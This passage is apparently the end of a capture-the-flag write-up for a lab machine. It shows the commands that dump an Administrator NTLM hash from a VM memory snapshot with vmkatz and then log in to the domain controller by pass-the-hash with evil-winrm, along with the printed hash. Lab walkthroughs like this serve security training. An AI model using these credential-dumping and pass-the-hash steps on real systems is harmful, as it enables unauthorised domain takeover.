.\vmkatz.exe "\\dc01.checkpoint.htb\VMBackups\NightlyBackup_2026-06-15\memory forensics\Windows Server 2019-Snapshot1.vmsn" --format ntlm
Critical Output:
WIN-0DG6SJAEUTA\Administrator:::f29e9c014295b9b32139b09a2790be3b:::
Administrator NTLM Hash: f29e9c014295b9b32139b09a2790be3b

so now we could just evil-winrm to the boxevil-winrm -i DC01.CHECKPOINT.HTB -u Administrator -H f29e9c014295b9b32139b09a2790be3b

and thats it
Happy Hacking!